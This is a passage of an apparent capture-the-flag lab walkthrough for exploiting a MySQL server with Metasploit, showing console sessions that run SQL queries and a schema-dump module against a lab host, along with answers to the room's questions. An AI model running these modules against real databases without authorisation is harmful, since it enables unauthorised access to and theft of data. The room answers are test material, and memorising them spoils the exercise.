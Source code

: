3\. Run the exploit. By default it will test with the “select version()” command, what result does this give you?

```
5.7.29-0ubuntu0.18.04.1
```

The exploit we just ran use the ‘select version()’ SQL query on the target and now let’s change it to ‘show databases’ with the set command and run the exploit again.

```
msf6 auxiliary(admin/mysql/mysql\_sql) > set SQL show databases  
SQL => show databases  
msf6 auxiliary(admin/mysql/mysql\_sql) > run  
\[\*\] Running module against 10.10.75.70\[\*\] 10.10.75.70:3306 - Sending statement: 'show databases'...  
\[\*\] 10.10.75.70:3306 -  | information\_schema |  
\[\*\] 10.10.75.70:3306 -  | mysql |  
\[\*\] 10.10.75.70:3306 -  | performance\_schema |  
\[\*\] 10.10.75.70:3306 -  | sys |  
\[\*\] Auxiliary module execution completed  
msf6 auxiliary(admin/mysql/mysql\_sql) >
```

4\. Great! We know that our exploit is landing as planned. Let’s try to gain some more ambitious information. Change the “sql” option to “show databases”. how many databases are returned?

```
4
```

Exploiting MySQL
================

👀 Don't forget to read the room notes

Using the ‘search’ command look for a module named ‘mysql\_schemadump’

1.  First, let’s search for and select the “mysql\_schemadump” module. What’s the module’s full name?

```
auxiliary/scanner/mysql/mysql\_schemadump
```

As we did before use the ‘show options’ command to set the required settings for the module and run the exploit.

```
msf6 auxiliary(admin/mysql/mysql\_sql) > search mysql\_schemadumpMatching Modules  
\================\#  Name                                      Disclosure Date  Rank    Check  Description  
   -  ----                                      ---------------  ----    -----  -----------  
   0  auxiliary/scanner/mysql/mysql\_schemadump                   normal  No     MYSQL Schema DumpInteract with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql\_schemadumpmsf6 auxiliary(admin/mysql/mysql\_sql) > use 0  
msf6 auxiliary(scanner/mysql/mysql\_schemadump) > show optionsModule options (auxiliary/scanner/mysql/mysql\_schemadump):Name             Current Setting  Required  Description  
   ----             ---------------  --------  -----------  
   DISPLAY\_RESULTS  true             yes       Display the Results to the Screen  
   PASSWORD                          no        The password for the specified username  
   RHOSTS                            yes       The target host(s), see [https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit](https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit)  
   RPORT            3306             yes       The target port (TCP)  
   THREADS          1                yes       The number of concurrent threads (max one per host)  
   USERNAME                          no        The username to authenticate asmsf6 auxiliary(scanner/mysql/mysql\_schemadump) > set RHOSTS 10.10.75.70  
RHOSTS => 10.10.75.70  
msf6 auxiliary(scanner/mysql/mysql\_schemadump) > set PASSWORD password  
```